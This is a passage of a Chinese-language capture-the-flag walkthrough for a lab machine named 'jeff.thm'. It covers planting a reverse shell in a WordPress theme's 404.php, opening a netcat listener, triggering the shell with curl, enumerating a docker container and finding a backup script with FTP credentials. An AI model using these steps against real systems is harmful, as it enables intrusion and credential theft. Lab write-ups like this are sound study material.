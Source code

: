 ![](img/1fbfa45a6060f2b2e1a58f9bd7959807.png)

一旦我们更改了 IP 地址和端口，我们可以单击*更新文件* 按钮。

在我们访问浏览器上的链接之前，我们需要启动监听端口，以便获得一个反向 shell。

```
nc -nvlp 9009
```

现在，我们需要向 URL 发送一个 get 请求，要么使用 curl 命令，要么通过浏览器直接访问它。

```
curl [http://wordpress.jeff.thm/wp-content/themes/twentyninetten/404.php](http://wordpress.jeff.thm/wp-content/themes/twentyninetten/404.php)
```

最后，我们最初的立足点是机器中的 www-data。列举我们看到的机器”。dockerenv "文件，它表明我们在 docker 容器中。运行 [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 并没有揭示太多关于这个盒子的信息，而是/var/www/data/ftp_backup.php 中的一个文件。

```
<?php                                                                                          
/*                                             
    Todo: I need to finish coding this database backup script.
          also maybe convert it to a wordpress plugin in the future.                           
*/                                                                                             
$dbFile = 'db_backup/backup.sql';              
$ftpFile = 'backup.sql';                                                                                                                                                                      

$username = "backupmgr";                                                                                                                                                                      
$password = <password>;                                                                                                                                                         

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host            

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");                                                                                                                                                                
}        

$msg = "Upload failed";                                                                        
```